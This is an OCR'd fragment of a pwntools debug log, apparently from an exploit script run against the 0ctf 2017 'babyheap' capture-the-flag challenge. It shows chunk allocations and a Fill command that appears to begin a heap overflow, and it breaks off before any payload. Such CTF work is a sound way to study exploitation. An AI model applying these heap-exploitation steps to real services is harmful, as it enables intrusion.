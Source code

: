 ``` Python LOG
    b'Size: Allocate Index 3\n'
    b'1. Allocate\n'
    b'2. Fill\n'
    b'3. Free\n'
    b'4. Dump\n'
    b'5. Exit\n'
    b'Command: '
[DEBUG] Sent 0x2 bytes:
    b'1\n'
[DEBUG] Sent 0x3 bytes:
    b'24\n'
[DEBUG] Received 0x4c bytes:
    b'Size: Allocate Index 4\n'
    b'1. Allocate\n'
    b'2. Fill\n'
    b'3. Free\n'
    b'4. Dump\n'
    b'5. Exit\n'
    b'Command: '
[DEBUG] Sent 0x2 bytes:
    b'1\n'
[DEBUG] Sent 0x4 bytes:
    b'104\n'
[DEBUG] Received 0x4c bytes:
    b'Size: Allocate Index 5\n'
    b'1. Allocate\n'
    b'2. Fill\n'
    b'3. Free\n'
    b'4. Dump\n'
    b'5. Exit\n'
    b'Command: '
[DEBUG] Sent 0x2 bytes:
    b'1\n'
[DEBUG] Sent 0x3 bytes:
    b'24\n'
[DEBUG] Received 0x4c bytes:
    b'Size: Allocate Index 6\n'
    b'1. Allocate\n'
    b'2. Fill\n'
    b'3. Free\n'
    b'4. Dump\n'
    b'5. Exit\n'
    b'Command: '
/home/user/PycharmProjects/0ctf2017_babyheap/./main.py:8: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  io.sendline("2")
[DEBUG] Sent 0x2 bytes:
    b'2\n'
/home/user/PycharmProjects/0ctf2017_babyheap/./main.py:9: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  io.sendline(str(index))
[DEBUG] Sent 0x2 bytes:
    b'0\n'
/home/user/PycharmProjects/0ctf2017_babyheap/./main.py:10: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  io.sendline(str(size))
[DEBUG] Sent 0x3 bytes:
    b'48\n'
/home/user/PycharmProjects/0ctf2017_babyheap/./main.py:12: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  io.recvuntil("Command:", timeout=1)
[DEBUG] Received 0x4b bytes:
    b'Index: Size: Content: 1. Allocate\n'
```